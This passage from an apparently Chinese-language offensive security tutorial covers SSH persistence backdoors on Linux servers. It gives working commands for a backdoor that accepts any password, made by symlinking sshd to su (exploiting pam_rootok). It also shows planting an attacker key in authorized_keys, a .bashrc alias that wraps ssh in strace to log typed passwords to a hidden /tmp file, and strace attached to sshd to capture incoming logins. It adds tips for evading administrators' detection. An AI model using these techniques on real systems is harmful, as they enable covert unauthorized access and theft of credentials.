 优点：  
1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。  
2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。

#### 4.2 SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录:

```
ln -sf /usr/sbin/sshd /tmp/su 
/tmp/su -o Port=888  
ssh root@127.0.0.1 -p 888
```

![](https://minioapi.nerubian.cn/image/20250120141339129.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。

#### 4.3 SSH 公钥免密登陆

```
ssh-keygen -t rsa //生成公钥 
cat id_rsa.pub >> .ssh/authorized_keys  //将id_rsa.pub内容放到目标.ssh/authorized_keys里
```

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的shell，如struts写入公钥，oracle写入公钥连接，Redis未授权访问等情景。

#### 4.4 SSH Keylogger记录密码

当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

```sh
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```

设置完毕后，倘若当前系统不存在alias，那么就会影响其正常使用：

![](https://minioapi.nerubian.cn/image/20250120141343484.png)

```sh
grep "read(5" /tmp/.sshpwd-09May32324242.log | tail -n 11    //根据不同环境自行调试响应行数
```

![](https://minioapi.nerubian.cn/image/20250120141347455.png)

#### 4.5 strace监听ssh来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取root权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用strace来监听登陆本地的sshd流量。

```sh
ps -ef | grep sshd    //父进程PID strace -f -p 4241 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048
```
